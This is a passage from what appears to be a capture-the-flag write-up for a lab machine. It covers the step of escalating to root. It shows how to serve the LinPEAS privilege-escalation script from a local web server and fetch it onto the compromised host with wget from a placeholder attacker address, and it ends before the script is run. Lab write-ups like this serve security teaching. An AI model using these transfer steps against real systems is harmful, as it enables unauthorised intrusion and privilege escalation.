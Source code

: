 ### root

For escalating our privilege to root, let's find interesting permissions, files, or processes running on the machine using [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

LinPEAS is a script that search for possible paths to escalate privileges on Linux/UNIX* hosts.

For that let's transfer the script to the remote machine. For that first start a webserver in our local machine using the following command.

```bash
$ python3 -m http.server 8000
```

![doctor](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/doctor/29.png)

Download the privilege escalation script using `wget`

```bash
$ wget http://YOUR-IP:8000/linpeas.sh
```

![doctor](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/doctor/30.png)

After downloading the script in remote machine

![doctor](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/doctor/31.png)

